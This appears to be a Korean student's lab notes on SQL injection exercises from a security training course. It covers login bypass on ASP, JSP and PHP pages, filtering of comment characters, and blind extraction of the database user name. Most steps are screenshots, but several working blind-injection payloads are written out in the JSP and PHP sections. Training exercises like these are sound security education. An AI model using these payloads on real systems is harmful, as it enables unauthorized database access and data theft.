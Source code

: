 ## EQST 1번

### ASP

아래와 같이 입력하고 아무 비밀번호 입력하면 정답 나옴

![image-20200921114219205](secure_day1.assets/image-20200921114219205.png)

![image-20200921114241622](secure_day1.assets/image-20200921114241622.png)

### JSP

![image-20200921131440091](secure_day1.assets/image-20200921131440091.png)



### PHP

주석만 #으로 바꿔주면 된다

![image-20200921120433443](secure_day1.assets/image-20200921120433443.png)

---

## 3번(주석 필터링)

### ASP, JSP, PHP

아이디 뒤에 틀린 것을 넣어준다

![image-20200921135920140](secure_day1.assets/image-20200921135920140.png)

### JSP, PHP

아이디 뒤에 맞는 것을 넣어줘도 된다.

![image-20200921140122756](secure_day1.assets/image-20200921140122756.png)



---



![image-20200921141933441](secure_day1.assets/image-20200921141933441.png)



![image-20200921143340839](secure_day1.assets/image-20200921143340839.png)





인젝션 대책

![image-20200921161206847](secure_day1.assets/image-20200921161206847.png)

---

## 4번 테이블 이름 찾기

파라미터마다 싱클쿼테이션을 넣어본다. 맨 뒤에 넣었을 때 500에러 난다

![image-20200921163719769](secure_day1.assets/image-20200921163719769.png)

다음과 같이 첫번째 글자 아스키코드값 몇인지 찾는다.

![image-20200921170021233](secure_day1.assets/image-20200921170021233.png)

 첫번째 답은 osec

### JSP

test1%' and 'a%'='a 가 먹히는걸 확인할 수 있다.

test1%' and ascii(substr(user,1,1)) =71 and 'a%'='a 이것으로 하나씩 찾아볼 수 있고,

test1%' and user like '%I%' and 'a%'='a 이것으로 정확한 이름 체크 가능

test1%' and user like 'INF%' and 'a%'='a

test1%' and user like 'INF6' and 'a%'='a



### PHP

http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet 에서 어떻게 공격할지 확인가능

PHP%' and 'a%'='a 가 먹히는걸 확인할 수 있다. 위와 같은방법으로 찾으면,

PHP%' and user() like 'inf%' and 'a%'='a

PHP%' and ascii(substring(user(),1,1)) > 50 and 'a%'='a
